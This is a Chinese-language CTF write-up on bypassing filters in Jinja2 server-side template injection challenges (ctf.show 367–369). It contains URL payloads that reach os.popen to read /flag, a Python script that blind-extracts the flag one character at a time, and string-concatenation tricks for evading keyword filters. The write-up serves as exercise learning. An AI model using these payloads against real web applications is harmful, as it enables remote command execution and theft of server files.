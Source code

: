## 367_过滤OS

把os当做参数传入即可，这里我用cookie会爆500，很奇怪，直接改用values：

```jinja2
/?a=__globals__&b=os&c=cat /flag&name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}
```

## 368_过滤双花括号

```jinja2
/?a=__globals__&b=os&c=cat /flag&name={% print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}
```

看了一下feng师傅的wp，还可以盲注，学到了：
原理是`open('/flag').read()`会将整个文件回显，而`open('/flag').read(i)`则是返回读出的i个字符，再利用判断进行匹配即可：

```python
import requests

url="http://0c3d170c-43cb-4ee2-a344-476e4311e42f.challenge.ctf.show:8080/"
flag=""
for i in range(46):
    for j in "abcdefghijklmnopqrstuvwxyz0123456789-{}":
        params={
            'name':"{{% set a=(lipsum|attr(request.values.a)).get(request.values.b).open(request.values.c).read({}) %}}{{% if a==request.values.d %}}hhh{{% endif %}}".format(i),
            'a':'__globals__',
            'b':'__builtins__',
            'c':'/flag',
            'd':f'{flag+j}'
        }
        r=requests.get(url=url,params=params)
        if "hhh" in r.text:
            flag+=j
            print(flag)
            if j=="}":
                exit()
            break


```

## 369_过滤request

> ```python
> 'm'+'o'
> 'm'~'o'
> ('m','o')|join
> ['m','o']|join
> {'m':a,'o':a}|join
> dict(m=a,o=a)|join
> ```
>
> 字符拼接，（by[总结 - CTF中的SSTI0x01 | Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/21233/)）
